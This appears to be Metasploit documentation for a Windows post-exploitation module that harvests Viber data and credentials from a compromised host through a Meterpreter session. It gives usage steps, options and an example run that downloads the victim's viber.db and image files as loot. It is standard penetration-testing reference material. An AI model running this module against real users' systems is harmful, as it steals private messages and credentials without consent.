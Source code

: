 ## Module Description

This post-exploitation module gathers artifacts found on Viber related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/viber
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/viber) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Viber's parent folder found
[*] Viber's Viber.db file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\viber.db
[*] Viber Viber.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513071138_default_192.168.56.106_viberviber.db_428035.db

[*] Viber's parent folder found
[*] Viber's parent folder found
[*] Viber's *.jpg file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000486.jpg
[*] Viber 10000486.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000486.jp_920388.jpg

[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000487.jpg
[*] Viber 10000487.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000487.jp_576575.jpg


[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

